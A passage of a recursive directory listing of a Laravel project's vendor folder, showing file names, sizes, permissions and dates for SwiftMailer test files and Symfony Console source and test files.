-rw-r--r-- 1 www-data www-data 1.9K Feb 13  2017 SocketTimeoutTest.php
-rw-r--r-- 1 www-data www-data 1.3K Feb 13  2017 SslSocketAcceptanceTest.php
-rw-r--r-- 1 www-data www-data 1.3K Feb 13  2017 TlsSocketAcceptanceTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/bug:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Feb 13  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 Swift

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/bug/Swift:
total 68K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 1.3K Feb 13  2017 Bug111Test.php
-rw-r--r-- 1 www-data www-data  442 Feb 13  2017 Bug118Test.php
-rw-r--r-- 1 www-data www-data 1.6K Feb 13  2017 Bug206Test.php
-rw-r--r-- 1 www-data www-data  604 Feb 13  2017 Bug274Test.php
-rw-r--r-- 1 www-data www-data 2.5K Feb 13  2017 Bug34Test.php
-rw-r--r-- 1 www-data www-data 2.4K Feb 13  2017 Bug35Test.php
-rw-r--r-- 1 www-data www-data 6.6K Feb 13  2017 Bug38Test.php
-rw-r--r-- 1 www-data www-data 1.2K Feb 13  2017 Bug518Test.php
-rw-r--r-- 1 www-data www-data 3.4K Feb 13  2017 Bug51Test.php
-rw-r--r-- 1 www-data www-data 1.4K Feb 13  2017 Bug534Test.php
-rw-r--r-- 1 www-data www-data 1.4K Feb 13  2017 Bug650Test.php
-rw-r--r-- 1 www-data www-data  503 Feb 13  2017 Bug71Test.php
-rw-r--r-- 1 www-data www-data 2.0K Feb 13  2017 Bug76Test.php
-rw-r--r-- 1 www-data www-data  438 Feb 13  2017 BugFileByteStreamConsecutiveReadCallsTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/fixtures:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 1.2K Feb 13  2017 MimeEntityFixture.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/smoke:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Feb 13  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 Swift

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/smoke/Swift:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 Smoke

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/smoke/Swift/Smoke:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 1.1K Feb 13  2017 AttachmentSmokeTest.php
-rw-r--r-- 1 www-data www-data  686 Feb 13  2017 BasicSmokeTest.php
-rw-r--r-- 1 www-data www-data 1.1K Feb 13  2017 HtmlWithAttachmentSmokeTest.php
-rw-r--r-- 1 www-data www-data 1.5K Feb 13  2017 InternationalSmokeTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x  8 www-data www-data 4.0K Feb 13  2017 ..
drwxr-xr-x 14 www-data www-data 4.0K Feb 13  2017 Swift

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift:
total 80K
drwxr-xr-x 14 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x  3 www-data www-data 4.0K Feb 13  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 ByteStream
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 CharacterReader
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 CharacterStream
-rw-r--r--  1 www-data www-data 5.9K Feb 13  2017 DependencyContainerTest.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 Encoder
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 Events
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 KeyCache
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 Mailer
-rw-r--r--  1 www-data www-data 4.5K Feb 13  2017 MailerTest.php
-rw-r--r--  1 www-data www-data 5.9K Feb 13  2017 MessageTest.php
drwxr-xr-x  5 www-data www-data 4.0K Feb 13  2017 Mime
drwxr-xr-x  4 www-data www-data 4.0K Feb 13  2017 Plugins
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 Signers
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 StreamFilters
drwxr-xr-x  4 www-data www-data 4.0K Feb 13  2017 Transport

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/ByteStream:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 5.8K Feb 13  2017 ArrayByteStreamTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/CharacterReader:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 1.4K Feb 13  2017 GenericFixedWidthReaderTest.php
-rw-r--r--  1 www-data www-data 1.4K Feb 13  2017 UsAsciiReaderTest.php
-rw-r--r--  1 www-data www-data 1.8K Feb 13  2017 Utf8ReaderTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/CharacterStream:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data  15K Feb 13  2017 ArrayCharacterStreamTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/Encoder:
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 6.3K Feb 13  2017 Base64EncoderTest.php
-rw-r--r--  1 www-data www-data  16K Feb 13  2017 QpEncoderTest.php
-rw-r--r--  1 www-data www-data 4.7K Feb 13  2017 Rfc2231EncoderTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/Events:
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 1.1K Feb 13  2017 CommandEventTest.php
-rw-r--r--  1 www-data www-data  859 Feb 13  2017 EventObjectTest.php
-rw-r--r--  1 www-data www-data 1.2K Feb 13  2017 ResponseEventTest.php
-rw-r--r--  1 www-data www-data 2.9K Feb 13  2017 SendEventTest.php
-rw-r--r--  1 www-data www-data 5.4K Feb 13  2017 SimpleEventDispatcherTest.php
-rw-r--r--  1 www-data www-data  828 Feb 13  2017 TransportChangeEventTest.php
-rw-r--r--  1 www-data www-data 1.2K Feb 13  2017 TransportExceptionEventTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/KeyCache:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 7.6K Feb 13  2017 ArrayKeyCacheTest.php
-rw-r--r--  1 www-data www-data 2.5K Feb 13  2017 SimpleKeyCacheInputStreamTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/Mailer:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 1.5K Feb 13  2017 ArrayRecipientIteratorTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/Mime:
total 148K
drwxr-xr-x  5 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data  36K Feb 13  2017 AbstractMimeEntityTest.php
-rw-r--r--  1 www-data www-data  11K Feb 13  2017 AttachmentTest.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 ContentEncoder
-rw-r--r--  1 www-data www-data 1.7K Feb 13  2017 EmbeddedFileTest.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 HeaderEncoder
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 Headers
-rw-r--r--  1 www-data www-data 7.6K Feb 13  2017 MimePartTest.php
-rw-r--r--  1 www-data www-data 5.3K Feb 13  2017 SimpleHeaderFactoryTest.php
-rw-r--r--  1 www-data www-data  27K Feb 13  2017 SimpleHeaderSetTest.php
-rw-r--r--  1 www-data www-data  28K Feb 13  2017 SimpleMessageTest.php
-rw-r--r--  1 www-data www-data  282 Feb 13  2017 SimpleMimeEntityTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/Mime/ContentEncoder:
total 52K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data  12K Feb 13  2017 Base64ContentEncoderTest.php
-rw-r--r-- 1 www-data www-data 5.3K Feb 13  2017 PlainContentEncoderTest.php
-rw-r--r-- 1 www-data www-data  21K Feb 13  2017 QpContentEncoderTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/Mime/HeaderEncoder:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data  389 Feb 13  2017 Base64HeaderEncoderTest.php
-rw-r--r-- 1 www-data www-data 8.3K Feb 13  2017 QpHeaderEncoderTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/Mime/Headers:
total 68K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 2.0K Feb 13  2017 DateHeaderTest.php
-rw-r--r-- 1 www-data www-data 5.8K Feb 13  2017 IdentificationHeaderTest.php
-rw-r--r-- 1 www-data www-data  12K Feb 13  2017 MailboxHeaderTest.php
-rw-r--r-- 1 www-data www-data  16K Feb 13  2017 ParameterizedHeaderTest.php
-rw-r--r-- 1 www-data www-data 2.5K Feb 13  2017 PathHeaderTest.php
-rw-r--r-- 1 www-data www-data  13K Feb 13  2017 UnstructuredHeaderTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/Plugins:
total 72K
drwxr-xr-x  4 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 2.9K Feb 13  2017 AntiFloodPluginTest.php
-rw-r--r--  1 www-data www-data 4.1K Feb 13  2017 BandwidthMonitorPluginTest.php
-rw-r--r--  1 www-data www-data 9.0K Feb 13  2017 DecoratorPluginTest.php
-rw-r--r--  1 www-data www-data 5.6K Feb 13  2017 LoggerPluginTest.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 Loggers
-rw-r--r--  1 www-data www-data 3.1K Feb 13  2017 PopBeforeSmtpPluginTest.php
-rw-r--r--  1 www-data www-data 6.6K Feb 13  2017 RedirectingPluginTest.php
-rw-r--r--  1 www-data www-data 4.1K Feb 13  2017 ReporterPluginTest.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 Reporters
-rw-r--r--  1 www-data www-data 3.3K Feb 13  2017 ThrottlerPluginTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/Plugins/Loggers:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 1.9K Feb 13  2017 ArrayLoggerTest.php
-rw-r--r-- 1 www-data www-data  656 Feb 13  2017 EchoLoggerTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/Plugins/Reporters:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 2.1K Feb 13  2017 HitReporterTest.php
-rw-r--r-- 1 www-data www-data 1.8K Feb 13  2017 HtmlReporterTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/Signers:
total 44K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data  12K Feb 13  2017 DKIMSignerTest.php
-rw-r--r--  1 www-data www-data  821 Feb 13  2017 OpenDKIMSignerTest.php
-rw-r--r--  1 www-data www-data  20K Feb 13  2017 SMimeSignerTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/StreamFilters:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 4.8K Feb 13  2017 ByteArrayReplacementFilterTest.php
-rw-r--r--  1 www-data www-data 1.2K Feb 13  2017 StringReplacementFilterFactoryTest.php
-rw-r--r--  1 www-data www-data 2.1K Feb 13  2017 StringReplacementFilterTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/Transport:
total 176K
drwxr-xr-x  4 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data  21K Feb 13  2017 AbstractSmtpEventSupportTest.php
-rw-r--r--  1 www-data www-data  43K Feb 13  2017 AbstractSmtpTest.php
drwxr-xr-x  3 www-data www-data 4.0K Feb 13  2017 Esmtp
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 EsmtpTransport
-rw-r--r--  1 www-data www-data 9.6K Feb 13  2017 EsmtpTransportTest.php
-rw-r--r--  1 www-data www-data  18K Feb 13  2017 FailoverTransportTest.php
-rw-r--r--  1 www-data www-data  25K Feb 13  2017 LoadBalancedTransportTest.php
-rw-r--r--  1 www-data www-data  18K Feb 13  2017 MailTransportTest.php
-rw-r--r--  1 www-data www-data 5.0K Feb 13  2017 SendmailTransportTest.php
-rw-r--r--  1 www-data www-data 1.4K Feb 13  2017 StreamBufferTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/Transport/Esmtp:
total 20K
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Feb 13  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 Auth
-rw-r--r-- 1 www-data www-data 5.3K Feb 13  2017 AuthHandlerTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/Transport/Esmtp/Auth:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 2.1K Feb 13  2017 CramMd5AuthenticatorTest.php
-rw-r--r-- 1 www-data www-data 2.1K Feb 13  2017 LoginAuthenticatorTest.php
-rw-r--r-- 1 www-data www-data  10K Feb 13  2017 NTLMAuthenticatorTest.php
-rw-r--r-- 1 www-data www-data 2.2K Feb 13  2017 PlainAuthenticatorTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/unit/Swift/Transport/EsmtpTransport:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data  19K Feb 13  2017 ExtensionSupportTest.php

/var/www/laravel/vendor/symfony:
total 60K
drwxr-xr-x 15 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 16 www-data www-data 4.0K Apr  9  2017 console
drwxr-xr-x  7 www-data www-data 4.0K Apr  9  2017 css-selector
drwxr-xr-x  6 www-data www-data 4.0K Apr  9  2017 debug
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 event-dispatcher
drwxr-xr-x  6 www-data www-data 4.0K Apr  9  2017 finder
drwxr-xr-x  6 www-data www-data 4.0K Apr  9  2017 http-foundation
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 http-kernel
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 polyfill-mbstring
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 process
drwxr-xr-x  8 www-data www-data 4.0K Apr  9  2017 routing
drwxr-xr-x 11 www-data www-data 4.0K Apr  9  2017 translation
drwxr-xr-x  9 www-data www-data 4.0K Apr  9  2017 var-dumper
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 yaml

/var/www/laravel/vendor/symfony/console:
total 136K
drwxr-xr-x 16 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   34 Apr  4  2017 .gitignore
-rw-r--r--  1 www-data www-data  37K Apr  4  2017 Application.php
-rw-r--r--  1 www-data www-data 2.6K Apr  4  2017 CHANGELOG.md
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Command
-rw-r--r--  1 www-data www-data 1.4K Apr  4  2017 ConsoleEvents.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Descriptor
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Event
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Exception
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Formatter
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Helper
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Input
-rw-r--r--  1 www-data www-data 1.1K Apr  4  2017 LICENSE
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Logger
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Output
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Question
-rw-r--r--  1 www-data www-data  692 Apr  4  2017 README.md
drwxr-xr-x  3 www-data www-data 4.0K Apr  4  2017 Resources
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Style
-rw-r--r--  1 www-data www-data 3.9K Apr  4  2017 Terminal.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Tester
drwxr-xr-x 12 www-data www-data 4.0K Apr  4  2017 Tests
-rw-r--r--  1 www-data www-data 1.2K Apr  4  2017 composer.json
-rw-r--r--  1 www-data www-data 1.2K Apr  4  2017 phpunit.xml.dist

/var/www/laravel/vendor/symfony/console/Command:
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 16 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  19K Apr  4  2017 Command.php
-rw-r--r--  1 www-data www-data 2.5K Apr  4  2017 HelpCommand.php
-rw-r--r--  1 www-data www-data 2.6K Apr  4  2017 ListCommand.php
-rw-r--r--  1 www-data www-data 1.5K Apr  4  2017 LockableTrait.php

/var/www/laravel/vendor/symfony/console/Descriptor:
total 60K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 16 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 3.8K Apr  4  2017 ApplicationDescription.php
-rw-r--r--  1 www-data www-data 3.6K Apr  4  2017 Descriptor.php
-rw-r--r--  1 www-data www-data  737 Apr  4  2017 DescriptorInterface.php
-rw-r--r--  1 www-data www-data 4.9K Apr  4  2017 JsonDescriptor.php
-rw-r--r--  1 www-data www-data 5.0K Apr  4  2017 MarkdownDescriptor.php
-rw-r--r--  1 www-data www-data  12K Apr  4  2017 TextDescriptor.php
-rw-r--r--  1 www-data www-data 9.4K Apr  4  2017 XmlDescriptor.php

/var/www/laravel/vendor/symfony/console/Event:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 16 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 1.4K Apr  4  2017 ConsoleCommandEvent.php
-rw-r--r--  1 www-data www-data 1.5K Apr  4  2017 ConsoleEvent.php
-rw-r--r--  1 www-data www-data 1.6K Apr  4  2017 ConsoleExceptionEvent.php
-rw-r--r--  1 www-data www-data 1.3K Apr  4  2017 ConsoleTerminateEvent.php

/var/www/laravel/vendor/symfony/console/Exception:
total 32K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 16 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 1.2K Apr  4  2017 CommandNotFoundException.php
-rw-r--r--  1 www-data www-data  406 Apr  4  2017 ExceptionInterface.php
-rw-r--r--  1 www-data www-data  446 Apr  4  2017 InvalidArgumentException.php
-rw-r--r--  1 www-data www-data  508 Apr  4  2017 InvalidOptionException.php
-rw-r--r--  1 www-data www-data  426 Apr  4  2017 LogicException.php
-rw-r--r--  1 www-data www-data  430 Apr  4  2017 RuntimeException.php

/var/www/laravel/vendor/symfony/console/Formatter:
total 36K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 16 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 7.3K Apr  4  2017 OutputFormatter.php
-rw-r--r--  1 www-data www-data 1.6K Apr  4  2017 OutputFormatterInterface.php
-rw-r--r--  1 www-data www-data 6.7K Apr  4  2017 OutputFormatterStyle.php
-rw-r--r--  1 www-data www-data 1.4K Apr  4  2017 OutputFormatterStyleInterface.php
-rw-r--r--  1 www-data www-data 2.8K Apr  4  2017 OutputFormatterStyleStack.php

/var/www/laravel/vendor/symfony/console/Helper:
total 132K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 16 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 4.1K Apr  4  2017 DebugFormatterHelper.php
-rw-r--r--  1 www-data www-data 2.6K Apr  4  2017 DescriptorHelper.php
-rw-r--r--  1 www-data www-data 2.9K Apr  4  2017 FormatterHelper.php
-rw-r--r--  1 www-data www-data 3.4K Apr  4  2017 Helper.php
-rw-r--r--  1 www-data www-data  943 Apr  4  2017 HelperInterface.php
-rw-r--r--  1 www-data www-data 2.7K Apr  4  2017 HelperSet.php
-rw-r--r--  1 www-data www-data  747 Apr  4  2017 InputAwareHelper.php
-rw-r--r--  1 www-data www-data 4.9K Apr  4  2017 ProcessHelper.php
-rw-r--r--  1 www-data www-data  17K Apr  4  2017 ProgressBar.php
-rw-r--r--  1 www-data www-data 7.8K Apr  4  2017 ProgressIndicator.php
-rw-r--r--  1 www-data www-data  15K Apr  4  2017 QuestionHelper.php
-rw-r--r--  1 www-data www-data 3.7K Apr  4  2017 SymfonyQuestionHelper.php
-rw-r--r--  1 www-data www-data  20K Apr  4  2017 Table.php
-rw-r--r--  1 www-data www-data 1.7K Apr  4  2017 TableCell.php
-rw-r--r--  1 www-data www-data  581 Apr  4  2017 TableSeparator.php
-rw-r--r--  1 www-data www-data 5.2K Apr  4  2017 TableStyle.php

/var/www/laravel/vendor/symfony/console/Input:
total 80K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 16 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  11K Apr  4  2017 ArgvInput.php
-rw-r--r--  1 www-data www-data 5.4K Apr  4  2017 ArrayInput.php
-rw-r--r--  1 www-data www-data 5.1K Apr  4  2017 Input.php
-rw-r--r--  1 www-data www-data 3.3K Apr  4  2017 InputArgument.php
-rw-r--r--  1 www-data www-data  606 Apr  4  2017 InputAwareInterface.php
-rw-r--r--  1 www-data www-data  12K Apr  4  2017 InputDefinition.php
-rw-r--r--  1 www-data www-data 4.7K Apr  4  2017 InputInterface.php
-rw-r--r--  1 www-data www-data 5.9K Apr  4  2017 InputOption.php
-rw-r--r--  1 www-data www-data  873 Apr  4  2017 StreamableInputInterface.php
-rw-r--r--  1 www-data www-data 2.4K Apr  4  2017 StringInput.php

/var/www/laravel/vendor/symfony/console/Logger:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 16 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 4.2K Apr  4  2017 ConsoleLogger.php

/var/www/laravel/vendor/symfony/console/Output:
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 16 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  875 Apr  4  2017 BufferedOutput.php
-rw-r--r--  1 www-data www-data 4.0K Apr  4  2017 ConsoleOutput.php
-rw-r--r--  1 www-data www-data  843 Apr  4  2017 ConsoleOutputInterface.php
-rw-r--r--  1 www-data www-data 2.2K Apr  4  2017 NullOutput.php
-rw-r--r--  1 www-data www-data 4.4K Apr  4  2017 Output.php
-rw-r--r--  1 www-data www-data 3.4K Apr  4  2017 OutputInterface.php
-rw-r--r--  1 www-data www-data 3.3K Apr  4  2017 StreamOutput.php

/var/www/laravel/vendor/symfony/console/Question:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 16 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 4.9K Apr  4  2017 ChoiceQuestion.php
-rw-r--r--  1 www-data www-data 1.6K Apr  4  2017 ConfirmationQuestion.php
-rw-r--r--  1 www-data www-data 5.7K Apr  4  2017 Question.php

/var/www/laravel/vendor/symfony/console/Resources:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 16 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 bin

/var/www/laravel/vendor/symfony/console/Resources/bin:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data 9.0K Apr  4  2017 hiddeninput.exe

/var/www/laravel/vendor/symfony/console/Style:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 16 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 2.8K Apr  4  2017 OutputStyle.php
-rw-r--r--  1 www-data www-data 3.2K Apr  4  2017 StyleInterface.php
-rw-r--r--  1 www-data www-data  12K Apr  4  2017 SymfonyStyle.php

/var/www/laravel/vendor/symfony/console/Tester:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 16 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 5.6K Apr  4  2017 ApplicationTester.php
-rw-r--r--  1 www-data www-data 4.3K Apr  4  2017 CommandTester.php

/var/www/laravel/vendor/symfony/console/Tests:
total 108K
drwxr-xr-x 12 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 16 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  56K Apr  4  2017 ApplicationTest.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Command
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Descriptor
drwxr-xr-x  3 www-data www-data 4.0K Apr  4  2017 Fixtures
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Formatter
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Helper
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Input
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Logger
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Output
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Style
-rw-r--r--  1 www-data www-data  845 Apr  4  2017 TerminalTest.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Tester

/var/www/laravel/vendor/symfony/console/Tests/Command:
total 44K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r--  1 www-data www-data  18K Apr  4  2017 CommandTest.php
-rw-r--r--  1 www-data www-data 3.6K Apr  4  2017 HelpCommandTest.php
-rw-r--r--  1 www-data www-data 4.1K Apr  4  2017 ListCommandTest.php
-rw-r--r--  1 www-data www-data 1.6K Apr  4  2017 LockableTraitTest.php

/var/www/laravel/vendor/symfony/console/Tests/Descriptor:
total 32K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r--  1 www-data www-data 3.8K Apr  4  2017 AbstractDescriptorTest.php
-rw-r--r--  1 www-data www-data 1.1K Apr  4  2017 JsonDescriptorTest.php
